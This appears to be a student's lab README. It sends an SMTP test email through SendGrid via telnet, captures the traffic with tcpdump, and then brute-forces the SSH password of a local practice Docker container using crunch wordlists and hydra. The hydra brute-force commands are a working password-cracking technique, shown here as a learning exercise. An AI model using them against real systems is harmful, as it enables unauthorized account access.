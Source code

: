Attack_is_the_best_defense

Task 0
open an account in Sendgrid
look at the tutorial for send email with telnet

download script and execute

capture package the telnet send email and script

telnet smtp.sendgrid.net 587
EHLO ismtpd0013p1las1.sendgrid.net
auth login
colocan aqui su usuario pero en base64
luego el password de igual forma

mail from: fogniebla@hotmail.com
rcpt to: alzheimeer@hotmail.com
DATA

To: edgar fogniebla@hotmail.com
From: Recipient alzheimeer@hotmail.com
Subject: This is a test for the SMTP relay

Mensanje....
.Enter


tcpdump -i eth0 -w real.pcap

compare files

cool.



Task 1

Install docker and download container
docker run -p 2222:22 -d -ti sylvainkalache/264-1

with sudo docker ps
with sudo docker ps -a
check if service is run

User: sylvain
ip: 127.0.0.1
port: 2222


For entry:

ssh sylvain@127.0.0.1 -p2222

the Password has 11 characters


install hydra and crunch

./crunch 11 11  -o pepe.txt
generate passwords file
or download the https://thehacktoday.com/password-cracking-dictionarys-download-for-free/

and with

hydra -s 2222 -l sylvain -P pepe.txt 127.0.0.1 -V  ssh

wait several hours

cool.